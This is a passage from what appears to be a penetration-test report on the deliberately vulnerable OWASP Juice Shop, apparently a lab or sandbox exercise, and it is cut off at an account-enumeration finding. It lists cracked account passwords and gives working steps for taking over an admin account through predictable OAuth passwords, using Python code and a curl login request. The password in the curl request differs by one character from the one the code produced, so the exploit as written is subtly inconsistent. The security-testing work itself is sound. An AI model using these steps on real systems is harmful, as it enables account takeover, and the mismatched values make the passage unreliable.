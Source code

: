 3. Successfully cracked multiple accounts in <0.001 seconds each:
- `admin@juice-sh.op` → `admin123`
- `jim@juice-sh.op` → `ncc-1701`
- `demo` → `demo`
- `ethereum@juice-sh.op` → `private`

**Proof of Impact:**
Achieved 100% success rate cracking MD5 password hashes, demonstrating that all user passwords are vulnerable to rainbow table and dictionary attacks due to weak hashing algorithm.

### AUTH-VULN-08: nOAuth Attack with Predictable Passwords

**Summary:**
- **Vulnerable location:** OAuth callback handling and password generation
- **Overview:** OAuth users assigned predictable passwords using btoa(email.reverse())
- **Impact:** Account takeover for any OAuth user via algorithm prediction
- **Severity:** Critical

**Exploitation Steps:**

1. Implement OAuth password generation algorithm:
```python
def generate_oauth_password(email):
    reversed_email = email[::-1]
    return base64.b64encode(reversed_email.encode()).decode()
```

2. Generate password for target admin account:
```python
email = "bjoern.kimminich@gmail.com"
password = generate_oauth_password(email)
# Result: "bW9jLmxpYW1nQGhjaW5pbW1pay5ucmVvamI="
```

3. Successfully authenticate with generated password:
```bash
curl -X POST "http://juice-shop.sandbox.local:3001/rest/user/login" \
-H "Content-Type: application/json" \
-d '{"email":"bjoern.kimminich@gmail.com","password":"bW9jLmxpYW1nQGhjaW5pbW1paz5ucmVvamI="}'
```

**Proof of Impact:**
Successfully compromised administrator OAuth account using predictable password generation algorithm, obtaining valid JWT token with admin privileges.

### AUTH-VULN-09: Account Enumeration via Reset Password Flow

**Summary:**
- **Vulnerable location:** GET /rest/user/security-question endpoint
- **Overview:** Different responses reveal valid vs invalid email addresses
- **Impact:** Systematic enumeration of valid user accounts
- **Severity:** Medium

**Exploitation Steps:**
